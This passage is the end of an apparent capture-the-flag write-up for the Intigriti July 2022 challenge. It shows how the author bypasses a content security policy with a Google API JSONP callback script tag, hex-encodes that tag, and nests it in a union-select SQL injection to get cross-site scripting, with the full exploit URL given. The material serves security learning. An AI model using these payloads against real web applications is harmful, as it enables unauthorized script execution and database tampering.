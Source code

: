 ```
    "status": "PERMISSION_DENIED"
  }
}
);

```

If we inject this script tag

```
<script src="www.googleapis.com/customsearch/v1?callback=alert(document.domain)"></script>
```

we no longer violate the CSP and can finally trigger javascript to proof XSS.
Last steps!

```
<script src="https://www.googleapis.com/customsearch/v1?callback=alert(document.domain)"></script>
=> 0x3C736372697074207372633D2268747470733A2F2F7777772E676F6F676C65617069732E636F6D2F637573746F6D7365617263682F76313F63616C6C6261636B3D616C65727428646F63756D656E742E646F6D61696E29223E3C2F7363726970743E0A

0 union select 1,0x3C736372697074207372633D2268747470733A2F2F7777772E676F6F676C65617069732E636F6D2F637573746F6D7365617263682F76313F63616C6C6261636B3D616C65727428646F63756D656E742E646F6D61696E29223E3C2F7363726970743E0A,3
=> 0x3020756E696F6E2073656C65637420312C30783343373336333732363937303734323037333732363333443232363837343734373037333341324632463737373737373245363736463646363736433635363137303639373332453633364636443246363337353733373436463644373336353631373236333638324637363331334636333631364336433632363136333642334436313643363537323734323836343646363337353644363536453734324536343646364436313639364532393232334533433246373336333732363937303734334530412C33

https://challenge-0722.intigriti.io/challenge/challenge.php?month=9999%20union%20select%200,0,0,0x3020756E696F6E2073656C65637420312C30783343373336333732363937303734323037333732363333443232363837343734373037333341324632463737373737373245363736463646363736433635363137303639373332453633364636443246363337353733373436463644373336353631373236333638324637363331334636333631364336433632363136333642334436313643363537323734323836343646363337353644363536453734324536343646364436313639364532393232334533433246373336333732363937303734334530412C33,0
```

And that's how we solved the 2022 Intigrity July Challenge.

Follow me on [twitter.com/h43z](https://twitter.com) for more fun, exploration! Or mention @h43z to ask questions.
